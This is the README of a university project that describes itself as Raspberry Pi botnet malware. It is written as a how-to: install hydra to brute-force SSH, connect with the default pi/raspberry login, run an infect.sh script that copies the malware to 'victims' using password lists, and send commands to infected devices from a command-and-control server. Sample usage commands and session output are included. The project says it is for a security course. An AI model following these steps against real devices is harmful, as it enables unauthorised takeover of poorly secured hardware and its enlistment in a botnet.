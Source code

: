 # Raspberry Pi Botnet

Implimentation of botnet malware designed to infect and control a set of raspberry PIs. For educational purposes only, as a final project of University of Windsor's 60-467 network security course.

This project includes 2 approaches to implimenting a botnet using python: Via SSH and via raw sockets.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

- hydra (For performing a dictionary attack on target Rasp PI SSH servers)
- python3
- pip3 (For installing pexpect)
- pexpect (For the SSH botnet)

```
Give examples
```

### Installing

1.  Install hydra, and python3
```
$ sudo apt install hydra python3
```

2.  Install pip3, so that we can use it to install pexpect
```
$ sudo apt install pip3
```

3.  Install pexpect
```
$ pip3 install pexpect
```

## Running the SSH botnet

The SSH botnet uses pexpect to handle SSH connections. It assumes that all of the target hosts are running an SSH server on port 22, that the attacking machine can reach the target raspberry PI, and that there exists a user on each target machine with the default login for a raspberry pi (pi/raspberry).

Usage:
```
$ python3 cnc.py [IP addresses or hostnames of target Raspberry PIs]
```

Example:
```
$ python3 cnc.py 192.168.0.50
Adding clients...
	Client: 192.168.0.50 
Number of clients connected: 1
$ pwd
[*]Output from 192.168.0.50
[+]pwd
/home/pi

$ ls
[*]Output from 192.168.0.50
[+]ls
client   Documents  Music      Pictures  python_games  tmp
Desktop  Downloads  myScripts  Public    Templates     Videos
```

## Running the Socket botnet

The socket botnet uses sockets in python to send commands to the targets. It does not require standard user login for the target hosts (pi/raspberry), or for the target to be running SSH on port 22. Once the client has been infected, it will initiate communication with the command and control server (which can be remote, unlike the SSH botnet).

1. Modify the IP and port of the infection script to reflect the IP and port of your remote command and control server. This will be the IP/port that each target PI will attempt to connect to, in order to recieve commands.
```
$ vim infect.sh
CNC_IP=1.1.1.1
CNC_PORT=50000
```

2. Start the command and control server on the remote host. It is recommended to run this in tmux or screen to maintain a persistent TTY (just in case you close the SSH session to your remote host).
```
user@remote_server $ python3 server.py [IP to bind to] [Port to bind to]

# Example:
# $ python3 server.py 1.1.1.1 50000
Binding on [1.1.1.1]:50000...
```

3. Infect your victims. This will copy the malware to the victim, and the client code will begin executing on the target PI. Once infected, they will attempt to communicate with the remote server.
```
# Show usage:
$ ./infect.sh

# Example usages:
$ ./infect.sh -t [victim IP]
$ ./infect.sh -l [Alternate login] -p [Alternate password] -t [victim IP]
$ ./infect.sh -L [Alternate login file] -P [Alternate password dictionary] -t [victim IP]

# Examples:
$ ./infect.sh -t 2.2.2.2
$ ./infect.sh -t 2.2.2.2 -l alternate_username -p alternate_password
$ ./infect.sh -t 2.2.2.2 -L username_list.txt -p common_passwords.txt
```

4. On the remote host, you should see clients connected. From here, you can send commands from the same TTY/process from step 2.
```
# TTY from step 2:
$ Client connected: ('1.1.1.1', 37280)->('2.2.2.2', 50000)
$ !exec ls
Sending command [ls] to 1 clients...
Sending to: ('2.2.2.2', 50002)
$ !exec ls -lah
Sending command [ls -lah] to 1 clients...
Sending to: ('2.2.2.2', 50002)
$
```
These commands execute on all connected target hosts. Output can be seen on the target if you were to run the client code (client/run.py) manually.

## Built With

* [hydra](http://sectools.org/tool/hydra/) - Used for password cracking 
* [pexpect](http://pexpect.sourceforge.net/pxssh.html) - Used for handling SSH connections via python 

## Contributing

Since this project is completed and submitted, no further work is expected to be done on the project. Feel free to fork the repo if you're interested in continuing the work here.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details

## Acknowledgments
* My group members, Ryan and Paul, for their contributions.
* Sherif Saad Ahmed, for the leadership and teaching of the course.
* [Linux Journal](http://www.linuxjournal.com/content/validating-ip-address-bash-script) for the bash script to validate IP addresses.
* [Charles Leifer](http://charlesleifer.com/blog/simple-botnet-written-python/) for inspiration, and for help with understanding raw python sockets.
* [bjacharya at cybrary](https://www.cybrary.it/0p3n/python-programming-hackers-part-6-creating-ssh-botnet/) for inspiration, and for help with pexpect library.

